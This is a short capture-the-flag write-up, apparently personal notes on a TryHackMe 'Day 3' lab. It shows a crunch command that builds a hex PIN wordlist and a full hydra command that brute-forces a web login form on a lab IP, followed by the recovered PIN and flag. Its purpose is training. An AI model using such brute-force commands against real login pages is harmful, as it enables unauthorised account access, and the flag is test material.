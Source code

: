 Day 3: Hydra
first we use [[Crunch]] to generate a wordlist of possible pins by using

`crunch 3 3 0123456789ABCDEF -o 3digits.txt`

The command above specifies the following:

- `3` the first number is the minimum length of the generated password
- `3` the second number is the maximum length of the generated password
- `0123456789ABCDEF` is the character set to use to generate the passwords
- `-o 3digits.txt` saves the output to the `3digits.txt` file

Using the List

analysing `http://10.10.145.239:8000/pin.php`
we can see that the pin is sent as a post ro login.php with the name pin

we can brute force thiis using  [[Hydra]] 

`hydra -l '' -P 3digits.txt -f -v 10.10.145.239 http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000`

after a few mins we found that the password **6F5** is valid
using that code and clicking **unlock door** gives us the flag
	THM{pin-code-brute-force}

Day 4: